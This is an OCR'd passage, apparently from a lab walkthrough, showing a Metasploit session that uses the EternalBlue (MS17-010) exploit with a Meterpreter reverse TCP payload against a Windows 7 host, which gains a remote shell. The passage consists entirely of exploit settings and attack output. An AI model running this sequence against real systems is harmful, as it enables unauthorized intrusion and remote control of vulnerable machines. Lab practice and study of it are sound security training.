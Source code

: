                                              rver 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008
                                             R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.17.93.24      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.


________________________________________-----------------------____________----------____________

msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.17.93.24:4444 
[*] 10.10.194.57:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.194.57:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.194.57:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.194.57:445 - The target is vulnerable.
[*] 10.10.194.57:445 - Connecting to target for exploitation.
[+] 10.10.194.57:445 - Connection established for exploitation.
[+] 10.10.194.57:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.194.57:445 - Sending last fragment of exploit packet!
[*] 10.10.194.57:445 - Receiving response from exploit packet
[+] 10.10.194.57:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.194.57:445 - Sending egg to corrupted connection.
[*] 10.10.194.57:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 10.10.194.57
[*] Meterpreter session 1 opened (10.17.93.24:4444 -> 10.10.194.57:49171) at 2024-07-05 17:40:43 +0500
[+] 10.10.194.57:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.194.57:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.194.57:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > 

______________________------------------___________________--------------__________

meterpreter > shell
Process 1648 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

